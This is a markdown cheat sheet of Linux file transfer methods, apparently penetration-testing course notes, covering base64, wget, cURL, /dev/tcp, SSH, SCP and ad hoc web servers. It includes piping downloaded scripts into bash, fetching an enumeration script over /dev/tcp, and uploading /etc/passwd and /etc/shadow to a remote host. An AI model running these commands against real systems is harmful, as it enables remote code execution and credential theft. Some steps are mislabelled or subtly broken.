 ```yaml
---
title: "Linux File Transfer Methods"
weight: 2
---
```

---

## Download Operations

![File Transfer](file-transfer.webp)

### Base64 Encoding / Decoding

```
cat hash.txt |base64 -w 0;echo (Encoding)

echo -n 'LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZL' (Decoding)

md5sum hash.txt
```

### Web Downloads with Wget and cURL

#### Download a File Using wget

```
wget <url> -O <filename>
```

#### Download a File Using cURL

```
curl -o <filename> <url>
```

### Fileless Attacks Using Linux

#### Fileless Download with cURL

```
curl <url> | bash
```

#### Fileless Download with wget

```
wget -qO- <url> | bash
```

### Download with Bash (/dev/tcp)

#### Connect to the Target Webserver

```
exec 3<>/dev/tcp/<ip>/<port>
```

#### HTTP GET Request

```
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

#### Print the Response

```
cat <&3
```

### SSH Downloads

#### Enabling the SSH Server

```
sudo systemctl enable ssh
```

#### Starting the SSH Server

```
sudo systemctl start ssh
```

#### Checking for SSH Listening Port

```
netstat -lnpt
```

#### Linux - Downloading Files Using SCP

```
scp <user><ip>:/root/myroot.txt . 
```

## Upload Operations

### Web Upload

#### Start Web Server

```
sudo python3 -m pip install --user uploadserver
```

#### Create a Self-Signed Certificate

```
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

#### Start Web Server

```
mkdir https && cd https
```

#### Linux - Upload Multiple Files

```
curl -X POST https://<ip>/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

### Alternative Web File Transfer Method

#### Creating a Web Server with Python3

```
 python3 -m http.server
```

#### Creating a Web Server with Python2.7

```
python2.7 -m SimpleHTTPServer
```

#### Creating a Web Server with PHP

```
php -S 0.0.0.0:8000
```

####  Creating a Web Server with Ruby

```
ruby -run -ehttpd . -p8000
```

#### Download the File from the Target Machine

```
wget <ip>:<port>/filetotransfer.txt
```

### SCP Upload

#### File Upload using SCP

```
scp /etc/passwd <user>@<ip>:/home/htb-student/
```
